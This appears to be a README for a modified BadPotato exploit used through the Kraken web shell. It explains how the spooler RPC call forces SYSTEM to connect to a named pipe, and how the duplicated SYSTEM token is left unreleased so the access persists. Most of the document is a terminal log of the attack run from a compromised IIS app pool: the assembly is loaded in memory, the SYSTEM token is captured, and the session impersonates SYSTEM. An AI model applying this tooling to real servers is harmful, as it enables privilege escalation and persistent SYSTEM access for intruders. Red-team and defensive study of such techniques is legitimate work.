 # BadPotato mod

BadPotato uses the Windows print service (**spoolss**) to exploit a [Forced Authentication][1]. This forced authentication occurs through the RPC call: [`RpcRemoteFindFirstPrinterChangeNotificationEx()`][2], which generates a notification object that monitors changes to a print object. This is used to force the print service to connect to a NamedPipe that we have created and steal the access token from it. As the user running the print service is the system account, we can use his token to elevate privileges.

This binary is a modified version of the original [BadPotato][3] code. This version performs privilege elevation just like BadPotato does, however, the code block relating to the creation and execution of the new process using the duplicate SYSTEM token has been removed. Instead, it forces a "leak" of the duplicate token by not calling the `CloseHandle()` that frees the reference.

By "leaking" the token, it can be used from the IIS Worker process itself (w3wp.exe), therefore, it is possible to use it via Kraken to impersonate the security context and privileges of the **NT AUTHORITY\SYSTEM** account.

In this way, it is possible to abuse the **SeImpersonate** privilege to achieve privilege escalation + persistence (because we can maintain the privilege level through the use of the Handle to Token).

## Examples

An example of elevation of privilege + impersonation using Kraken:

```
(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ sysinfo
Hostname: DESKTOP-8D0OEQR
IP: 172.20.10.9
OS: Microsoft Windows NT 10.0.19045.0 x64
User: IIS APPPOOL\DefaultAppPool
Path: C:/inetpub/wwwroot
Version: 4.0.30319.42000

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ help execute_assembly
usage: execute_assembly -f F -n N -c C -m M [arguments [arguments ...]]

Load a NET Assembly into memory using Reflection

positional arguments:
  arguments  Arguments to pass to the assembly

optional arguments:
  -f F       Local Filepath of NET Assembly (remember to check the NET version of the assembly and the architecture)
  -n N       Namespace to call inside Assembly.
  -c C       Class to call inside Assembly.
  -m M       Method to call inside Assembly.

Examples:
  execute_assembly -f ~/Kraken/test/net_assemblies/badpotato_net40_x64.exe -n BadPotato -c Program -m call
  execute_assembly -f ~/Kraken/test/net_assemblies/dummy_net40_x64.exe -n BadPotato -c Program -m call -- Ping
  execute_assembly -f ~/Kraken/test/net_assemblies/dummy_net40_x64.exe -n BadPotato -c Program -m call -- Ping -h --help

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ execute_assembly -f /home/secu/net_assemblies/bin/BadPotato-mod/badpotato_net40_x64.exe -n BadPotato -c Program -m call
[*] PipeName : \\.\pipe\986aba0ae0e14cdd906d46087e9cbc55\pipe\spoolss
[*] ConnectPipeName : \\DESKTOP-8D0OEQR/pipe/986aba0ae0e14cdd906d46087e9cbc55
[*] CreateNamedPipeW Success! IntPtr:2496
[*] RpcRemoteFindFirstPrinterChangeNotificationEx Success! IntPtr:2817957639424
[*] ConnectNamePipe Success!
[*] CurrentUserName : DefaultAppPool
[*] CurrentConnectPipeUserName : SYSTEM
[*] ImpersonateNamedPipeClient Success!
[*] OpenThreadToken Success! IntPtr:2232
[*] DuplicateTokenEx Success! IntPtr:2248
[*] Token: 2248


(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH
  2248   nt authority\system         False           SYSTEM

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ set_token 2248
Impersonated user: 'NT AUTHORITY\SYSTEM' with token: '2248'

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-18(NT AUTHORITY\SYSTEM) groups=S-1-5-32-544(BUILTIN\Administradores),S-1-1-0(Todos),S-1-5-11(NT AUTHORITY\Usuarios autentificados)

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ rev2self
[*] Token 2248 has been dereferenced (this does not mean that the token has been released)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415(IIS APPPOOL\DefaultAppPool) groups=S-1-1-0(Todos),S-1-5-32-545(BUILTIN\Usuarios),S-1-5-6(NT AUTHORITY\SERVICIO),S-1-2-1(INICIO DE SESIN EN LA CONSOLA),S-1-5-11(NT AUTHORITY\Usuarios autentificados),S-1-5-15(NT AUTHORITY\Esta compaa),S-1-5-32-568(BUILTIN\IIS_IUSRS),S-1-2-0(LOCAL)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ exit
```


[1]: https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication "Forced Authentication Examples"
[2]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d "MSDN Endpoint Spec"
[3]: https://github.com/BeichenDream/BadPotato "BadPotato Repository"
